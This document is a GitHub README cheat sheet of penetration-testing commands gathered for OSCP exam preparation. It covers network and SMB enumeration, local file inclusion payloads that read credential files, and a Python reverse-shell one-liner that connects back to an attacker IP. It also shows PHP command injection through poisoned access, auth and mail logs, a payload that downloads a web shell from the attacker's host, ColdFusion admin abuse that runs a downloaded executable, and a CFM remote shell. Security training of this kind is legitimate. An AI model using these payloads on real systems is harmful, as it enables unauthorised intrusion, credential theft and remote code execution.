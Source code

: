 # redteam-notebook
Collection of commands, tips and tricks and references I found useful during preparation for OSCP exam.

## Early Enumeration - generic

### Network wide scan - first steps
`nmap -sn 10.11.1.0/24`

### netbios scan
`nbtscan -r 10.11.1.0/24`

### DNS recon
`dnsrecon -r 10.11.1.0/24 -n <DNS IP>`
  
### Scan specific target with nmap
`nmap -sV -sT -p- <target IP> `
  
### Guess OS using xprobe2
`xprobe2 <target IP>`

### Search for SMB vulns
`nmap -p139,445 <target IP> --script smb-vuln*`
  
### Enumerate using SMB (null session)
`enum4linux -a <target IP>`
  
### Enumerate using SMB (w/user & pass)
`enum4linux -a -u <user> -p <passwd> <targetIP>`

## Website Enumeration

### quick enumeration using wordlist
`gobuster -u http://<target IP> -w /usr/share/dirb/wordlists/big.txt`
  
### enumeration and basic vuln scan of a website
`nikto -host http://<target IP>`
  
## Website tips and tricks

### PHP

* Check for LFI

Add `/etc/passwd%00` to any GET/POST arguments. On windows try `C:\Windows\System32\drivers\etc\hosts%00` or `C:\autoexec.bat%00`.
A quick win could also be any of these files `c:\sysprep.inf`, `c:\sysprep\sysprep.xml` or `c:\unattend.xml` as they would contain local admin credentials. On linux it's worth checking `/proc/self/environ` to see if there are any credentials passed to the running process via env vars.

* Fetching .php files via LFI

`/index.php?somevar=php://filter/read=convert.base64-encode/resource=<file path>%00` this will return base64 encoded PHP file. Good for fishing up `config.php` or similar.

* Abusing /proc/self/environ LFI to gain reverse shell
In some situations it's possible to abuse `/proc/self/environ` to execute a command. For example:
`index.php?somevar=/proc/self/environ&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

* Apache access.log + LFI = PHP injection
If Apache logs can be accessed via LFI it may be possible to use it to our advantage by injecting any PHP code in it and then viewing it via LFI.

with netcat send a request like this:
```GET /<?php system($_GET["cmd"]);?>

```

* auth.log + LFI
`ssh <?php system($_GET["cmd"]);?>@targetIP` and then LFI `/var/log/auth.log`

* /var/mail + LFI
`mail -s "<?php system($_GET["cmd"]);?>" someuser@targetIP < /dev/null` 

* php expect
`index.php?somevar=expect://ls`

* php input
`curl -X POST "targetIP/index.php?somevar=php://input" --data '<?php system("curl -o cmd.php yourIP/cmd.txt");?>'`
Then access `targetIP/cmd.php`

### ColdFusion


* is it Enterprise or Community?
Check how it handles `.jsp` files  `curl targetIP/blah/blah.jsp`. If 404 - enterprise, 500 - community.

* which version?
`/CFIDE/adminapi/base.cfc?wsdl` has a useful comment indicating exact version

* common XEE
https://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf

* LFI in admin login locale
`/CFIDE/administrator/enter.cfm?locale=../../../../ColdFusion9\lib\password.properties` - may need full path. They can be obtained with help of  `/CFIDE/componentutils/cfexplorer.cfc`

* Local upload and execution
Once access to admin panel is gained it's possible to use the task scheduler to download a file and use a system probe to execute it.

`Debugging & Logging` -> `Scheduled Tasks` -> url=<path to our executable>, Publish - save output to file (some writable path). Then manually execute this task which will download and save our file.
  
To execute it create a probe `Debugging & Logging` -> `System probes` -> URL=<some URL>, Probe fail - fail if probe does not contain "blahblah", Execute program <path to our downloaded exe>. And then run probe manually.
  
* Files worth grabbing
** CF7 \lib\neo-query.xml
** CF8 \lib\neo-datasource.xml
** CF9 \lib\neo-datasource.xml

* Simple remote CFM shell
```
<html>
<body>
<cfexecute name = "#URL.runme#" arguments =
"#URL.args#" timeout = "20">
</cfexecute>
</body>
</html>
```

* Simple remote shell using Java (if CFEXECUTE is disabled)
```
<cfset runtime = createObject("java",
"java.lang.System")>
<cfset props = runtime.getProperties()>
<cfdump var="#props#">
<cfset env = runtime.getenv()>
<cfdump var="#env#">
```

* Enterprise can run .jsp files too!
## References
* [OSCP Exam Guide](https://support.offensive-security.com/#!oscp-exam-guide.md) - MUST read!
* [FuzzySecurity](http://www.fuzzysecurity.com) - this is something you must bookmark... period. I found the [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html) especially useful.
* [WMIC reference/guide](https://www.computerhope.com/wmic.htm)
* [SysInternals](https://docs.microsoft.com/en-us/sysinternals/) - this is a must have for working on Windows boxes.
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
* [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
* [ColdFusion for PenTesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
* [ColdFusion Path Traversal](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
* [Penetration Testing Tools Cheat Sheet](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) - Good read. Check out other cheat sheets on this page too!
* [fimap](https://github.com/kurobeats/fimap) - LFI/RFI scanner
* [Changeme](https://github.com/ztgrace/changeme) - default password scanner
* [CIRT Default Passwords DB](https://cirt.net/passwords)
* [From LFI to Shell](http://resources.infosecinstitute.com/local-file-inclusion-code-execution)
